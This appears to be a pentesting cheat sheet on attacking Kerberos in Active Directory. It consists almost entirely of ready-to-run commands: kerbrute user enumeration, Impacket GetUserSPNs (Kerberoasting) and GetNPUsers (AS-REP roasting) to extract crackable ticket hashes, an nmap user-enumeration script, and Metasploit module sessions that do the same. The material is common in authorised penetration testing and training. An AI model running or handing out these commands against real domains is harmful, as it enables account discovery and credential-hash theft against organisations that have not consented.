 # Kerberos

## 01 - Manual

### 1.1 - Usage

#### 1.1.1 - Enumerate Users

- **Enumerate users against the active directory**

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.txt -t 64`

#### 1.1.2 - Kerberoast

- **Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account**

`$ GetUserSPNs -request -dc-ip <IP> <domain_name>/<username>:<password>`

#### 1.1.3 - ASREPRoast

- **Request a Kerberos 5, etype 23, AS-REP hash from an NP user account**

`$ GetNPUsers -request -dc-ip <IP> <domain_name>/<username>:<password>`

`$ GetNPUsers -request -dc-ip <IP> <domain_name> -usersfile users.txt`

## 02 - Nmap

`$ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=<usernames.txt> <IP>`

## 03 - Metasploit

### 3.1 - Enumerate Users

```
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(gather/kerberos_enumusers) > options

Module options (auxiliary/gather/kerberos_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN                      yes       The Domain Eg: demo.local
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USER_FILE                   yes       Files containing usernames, one per line

msf auxiliary(gather/kerberos_enumusers) > set domain <domain_name>

msf auxiliary(gather/kerberos_enumusers) > set rhosts <IP>

msf auxiliary(gather/kerberos_enumusers) > set user_file usernames.txt

msf auxiliary(gather/kerberos_enumusers) > exploit -j
```

### 3.2 Kerberoast

```
msf > use auxiliary/gather/get_user_spns

msf auxiliary(gather/get_user_spns) > options

Module options (auxiliary/gather/get_user_spns):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)
   domain                    yes       The target Active Directory domain
   pass                      yes       Password for the domain user account
   user                      yes       Username for a domain account

msf auxiliary(gather/get_user_spns) > set rhosts <IP>

msf auxiliary(gather/get_user_spns) > set threads 4

msf auxiliary(gather/get_user_spns) > set domain <domain_name>

msf auxiliary(gather/get_user_spns) > set user <username>

msf auxiliary(gather/get_user_spns) > set pass <password>

msf auxiliary(gather/get_user_spns) > exploit
```

## References

- [Impacket](https://github.com/fortra/impacket)

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

- [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)